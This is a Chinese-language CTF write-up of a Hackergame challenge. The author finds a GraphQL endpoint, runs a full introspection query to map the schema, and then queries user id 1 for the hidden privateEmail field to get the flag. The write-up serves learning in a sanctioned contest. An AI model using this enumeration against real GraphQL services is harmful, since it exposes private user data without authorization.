








# 图之上的信息

> 小 T 听说 GraphQL 是一种特别的 API 设计模式，也是 RESTful API 的有力竞争者，所以他写了个小网站来实验这项技术。 
>
> 你能通过这个全新的接口，获取到没有公开出来的管理员的邮箱地址吗？


登陆进去后：



所以目标是~~脱裤~~拖库（

搜索 `GraphQL` ， 翻看一些介绍文章及[中文主页](https://graphql.cn/)，发现GraphQL特点之一是用一个请求可以获得多个资源。



[这篇专栏](https://zhuanlan.zhihu.com/p/33876142)中也提到了：

> ……GraphQL 是单一入口，一般配置在`[host]/graphql/`…… 

于是访问 `/graphql` ，发现是有响应的：



另外在官网中也能找到一个图形化的交互界面项目：[GraphiQL](https://github.com/graphql/graphiql)。



（好像使用GraphiQL是非预期解）

去release里下载下来，安装。把api地址扔进去。顺带把cookie也添加进去：



一些文章中，提到了GraphQL的内省机制（Introspection），可以直接查询schema。根据[这篇专栏](https://zhuanlan.zhihu.com/p/390876937)构造查询语句：

```
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```



把结果扔到[分析工具](https://apis.guru/graphql-voyager/)中，得到数据库的结构：



这样我们就可以构建查询语句了。admin的 `id` 为 `1` 是一个合理的猜测。其实GraphiQL有自动补全key的功能，熟练的话甚至可以省去上一步。 

```
query q{
  user(id:1){
    privateEmail
  }
}
```

这个类似于 `SELECT privateEmail WHERE id=1 FROM user` 。



得到flag `flag{dont_let_graphql_l3ak_data_7178ef5260@hackergame.ustc}` 。 